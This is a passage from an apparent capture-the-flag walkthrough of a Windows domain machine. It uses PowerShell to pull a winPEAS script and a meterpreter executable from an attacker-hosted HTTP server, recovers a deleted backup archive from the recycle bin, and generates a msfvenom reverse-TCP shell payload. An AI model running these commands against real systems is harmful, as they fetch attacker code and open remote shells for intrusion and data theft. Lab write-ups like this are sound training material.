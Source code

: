 ![](CYBERSECURITY/IMAGES/Pasted%20image%2020250616175812.png)

Class_frizz contains `v.frizzle` which is a domain admin user:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250616175932.png)
![](CYBERSECURITY/IMAGES/Pasted%20image%2020250616175942.png)

Nothing more relevant can be found on here, so seems like we need to check how to get into `M.SCHOOLBUS` on ssh, let's try using `winpwas` to have a further understanding of what we can do on here, you can get winpeas.ps1 on your linux machine and download it using:

```powershell
Invoke-WebRequest http://IP:8000/winPEAS.ps1 -OutFile C:\Users\f.frizzle\winpeas.ps1
```

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250616182652.png)

Some relevant info was found but nothing too relevant, following the tip of the recycle bin, I searched for files that may have been deleted and may be on there, let's use these Powershell commands:

```powershell
$shell = New-Object -ComObject Shell.Application
$recycleBin = $shell.Namespace(0xA)
$recycleBin.items() | Select-Object Name, Path
```

We can see this:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250616182951.png)

We got a `wapt-backup-sunday.7z` file, there's a backup on the recycle bin what we can restore the file with this:

```powershell
$recycleBin = (New-Object -ComObject Shell.Application).NameSpace(0xA)  
$items = $recycleBin.Items()  
$item = $items | Where-Object {$_.Name -eq "wapt-backup-sunday.7z"}  
$documentsPath = [Environment]::GetFolderPath("Desktop")  
$documents = (New-Object -ComObject Shell.Application).NameSpace($documentsPath)  
$documents.MoveHere($item)
```

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250616183103.png)

We can now see the file on our desktop, we need a way to download it, this can be done using `meterpreter`, let's do the following:

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=IP LPORT=4444 -f exe -o meterpreter.exe
```

Now, with the `meterpreter.exee` file, we can download it again as we did with winpeas:

```powershell
Invoke-WebRequest "http://IP:8000/meterpreter.exe" -OutFile "meterpreter.exe"
```
